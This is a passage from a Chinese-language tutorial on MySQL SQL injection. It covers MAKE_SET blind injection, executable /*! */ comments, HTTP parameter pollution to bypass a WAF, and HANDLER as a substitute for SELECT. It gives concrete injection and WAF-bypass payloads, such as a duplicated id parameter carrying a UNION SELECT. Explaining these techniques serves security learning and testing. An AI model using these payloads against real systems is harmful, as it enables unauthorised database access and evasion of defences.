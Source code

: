 MAKE_SET(bits,str1,str2,...)根据参数1，返回所输入其他的参数值。可用作布尔盲注，如：`EXP(MAKE_SET((LENGTH(DATABASE())>8)+1,'1','710'))`。

## 其他特性

### 注释逃逸

`/* */` 在mysql中是多行注释,但是如果里面加了! 那么后面的内容会被执行.

正常的sql语句:

```sql
SELECT NAME FROM books WHERE id=1 UNION SELECT DATABASE();
```

效果如下:![image-20210131195902194](image-20210131195902194.png)

含有`/*! */`的sql语句;

```sql
SELECT NAME FROM books WHERE id=1 /*!union*/ SELECT DATABASE();
```

![image-20210131200812789](image-20210131200812789.png)

我们还可以利用一个`*/`去匹配多个`/*！`，例如sql语句：

```sql
SELECT NAME FROM books WHERE id=1 /*!union/*!select*/DATABASE();
```

![image-20210131195818399](image-20210131195818399.png)

### http参数污染

 在与服务器进行交互的过程中，客户端往往会在GET/POST请求中带上参数。通常在一个请求中，同名参数只会出现一次，但是在HTTP协议中是允许同名参数多次出现的。

![image-20210201201149269](image-20210201201149269.png)

如果一个网站只在tomcat服务器处做数据过滤和处理，我们可以利用解析参数的不同，对WAF检测进行绕过。

攻击payload：`index.php?id=-1' union select 1,database(),3--+`

union select…会被tomcat服务器识别为恶意攻击并拦截，而如果payload如下：

攻击payload：`index.php?id=1&id=-1' union select 1,database(),3--+`

tomcat服务器检测第一个参数后发现无异常，提交给apache服务器。成功绕过WAF拦截



## handler语句代替select查询

mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

语法:

```sql
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```
